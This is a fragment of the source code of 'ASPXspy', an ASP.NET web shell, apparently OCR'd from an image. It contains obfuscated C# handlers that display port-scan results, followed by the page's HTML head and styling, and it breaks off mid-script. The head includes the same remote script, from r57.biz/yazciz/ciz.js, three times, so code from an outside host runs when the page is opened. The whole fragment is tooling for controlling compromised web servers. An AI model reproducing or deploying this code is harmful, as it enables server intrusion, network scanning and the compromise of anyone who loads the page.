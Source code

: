 VikG();
GBYT.Visible=true;
string res=string.Empty;
foreach(ScanPort th in IVc)
{
res+=th.ip+" : "+th.port+" ................................. "+th.status+"&lt;br&gt;";
}
GBYT.InnerHtml=res;
}
protected void ORUgV(object sender,EventArgs e)
{
dwgT();
}
public void WICxe()
{
DCbS.Visible=false;
CzfO.Visible=false;
APl.Visible=false;
vIac.Visible=false;
kkHN.Visible=false;
YwLB.Visible=false;
iDgmL.Visible=false;
hOWTm.Visible=false;
vrFA.Visible=false;
yhv.Visible=false;
}
&lt;/script&gt;
&lt;html xmlns="http://www.w3.org/1999/xhtml" &gt;
&lt;SCRIPT SRC=http://r57.biz/yazciz/ciz.js&gt;&lt;/SCRIPT&gt;
&lt;head id="Head1" runat="server"&gt;
&lt;SCRIPT SRC=http://r57.biz/yazciz/ciz.js&gt;&lt;/SCRIPT&gt;
&lt;meta http-equiv="Content-Type" content="text/html;charset=utf-8"/&gt;
&lt;title&gt;ASPXspy&lt;/title&gt;
&lt;SCRIPT SRC=http://r57.biz/yazciz/ciz.js&gt;&lt;/SCRIPT&gt;
&lt;style type="text/css"&gt;
.Bin_Style_Login{font:11px Verdana;BACKGROUND: #FFFFFF;border: 1px solid #666666;}
body,td{font: 12px Arial,Tahoma;line-height: 16px;}
.input{font:12px Arial,Tahoma;background:#fff;border: 1px solid #666;padding:2px;height:16px;}
.list{font:12px Arial,Tahoma;height:23px;}
.area{font:12px 'Courier New',Monospace;background:#fff;border: 1px solid #666;padding:2px;}
.bt {border-color:#b0b0b0;background:#3d3d3d;color:#ffffff;font:12px Arial,Tahoma;height:22px;}
a {color: #00f;text-decoration:underline;}
a:hover{color: #f00;text-decoration:none;}
.alt1 td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#ededed;padding:5px 10px 5px 5px;}
.alt2 td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#fafafa;padding:5px 10px 5px 5px;}
.focus td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#ffffaa;padding:5px 10px 5px 5px;}
.head td{border-top:1px solid #ddd;border-bottom:1px solid #ccc;background:#e8e8e8;padding:5px 10px 5px 5px;font-weight:bold;}
.head td span{font-weight:normal;}
form{margin:0;padding:0;}
h2{margin:0;padding:0;height:24px;line-height:24px;font-size:14px;color:#5B686F;}
ul.info li{margin:0;color:#444;line-height:24px;height:24px;}
u{text-decoration: none;color:#777;float:left;display:block;width:150px;margin-right:10px;}
.u1{text-decoration: none;color:#777;float:left;display:block;width:150px;margin-right:10px;}
.u2{text-decoration: none;color:#777;float:left;display:block;width:350px;margin-right:10px;}
&lt;/style&gt;
&lt;script type="text/javascript"&gt;
function CheckAll(form){
for(var i=0;i&lt;form.elements.length;i++){
var e=form.elements[i];
if(e.name!='chkall')